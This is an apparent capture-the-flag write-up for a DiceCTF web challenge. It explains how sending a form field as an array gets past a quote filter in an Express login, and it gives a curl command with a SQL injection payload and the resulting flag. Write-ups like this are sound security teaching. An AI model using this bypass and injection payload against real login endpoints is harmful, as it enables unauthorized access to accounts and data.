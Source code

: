 **Challenge**: https://missing-flavortext.dicec.tf/

**Source code**: https://dicegang.storage.googleapis.com/uploads/93b69e65a6c5be22a9910caaacd36da72733f475031f96e0082d3c6bf76e77de/index.js

It is possible to send an array and then we can bypass the filter.

Vulnerable code: `app.use(bodyParser.urlencoded({ extended: true }));`.

Filter: `if ([req.body.username, req.body.password].some(v => v.includes('\'')))`.

Payload:
```shell
curl -X POST "https://missing-flavortext.dicec.tf/login" -d "username=123&password[]=1'or '1'=='1"
```

**Flag**: dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
